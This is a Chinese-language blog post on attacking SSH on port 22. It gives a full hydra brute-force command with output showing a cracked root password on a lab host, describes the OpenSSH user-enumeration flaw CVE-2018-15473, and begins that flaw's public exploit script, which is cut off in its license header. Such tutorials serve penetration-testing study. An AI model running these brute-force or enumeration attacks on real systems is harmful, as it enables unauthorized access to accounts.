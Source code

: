 ```yaml
---
layout:     post
title:      "22端口漏洞利用"
subtitle:   "简单介绍了hydra的使用以及Vulhub的安装"
date:       2020-03-24
author:     "Malcolm Suen"
header-img: "img/post-bg-2015.jpg"
header-mask:  0.3
catalog: true
tags:
    - 高危端口
    - 漏洞利用
    - Inspur
---
```


## Hydra爆破

使用hydra暴力破解ssh，命令为：

```shell
hydra -L dic_username_ssh.txt  -P dic_password_ssh.txt -o ssh.log -f -vV -e ns 10.110.31.124 ssh
# -L 用户名字典
# -P 密码字典
# -o ssh.log 输出到ssh.log文件中
# -vV 显示过程
# -f 搜到账号密码就停止

# 爆破成功
[22][ssh] host: 10.110.31.124   login: root   password: 1qaz2wsx

# ssh.log文件
# Hydra v9.0 run at 2020-03-24 10:32:24 on 10.110.31.124 ssh (hydra -L dic_username_ssh.txt -P dic_password_ssh.txt -o ssh.log -f -vV -e ns 10.110.31.124 ssh)
[22][ssh] host: 10.110.31.124   login: root   password: 1qaz2wsx
```

一般来说，弱口令爆破是最有可能的利用方式。

## OpenSSH用户枚举漏洞（CVE-2018-15473）

#### 简介

OpenSSH用户枚举漏洞（CVE-2018-15473）已经通过Github公开(https://github.com/openbsd/src/commit/779974d35b4859c07bc3cb8a12c74b43b0a7d1e0)。尽管该漏洞不能用来生成有效的用户名列表，但依旧可以拿来枚举猜测用户名。

#### 技术细节

通过向OpenSSH服务器发送一个错误格式的公钥认证请求，可以判断是否存在特定的用户名。如果用户名不存在，那么服务器会发给客户端一个验证失败的消息。如果用户名存在，那么将因为解析失败，不返回任何信息，直接中断通讯。该漏洞影响OpenSSH7.7以下的版本，利用脚本如下：

```python
#!/usr/bin/env python
 
# Copyright (c) 2018 Matthew Daley
#
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files (the "Software"), to
# deal in the Software without restriction, including without limitation the
# rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
# sell copies of the Software, and to permit persons to whom the Software is
# furnished to do so, subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in
```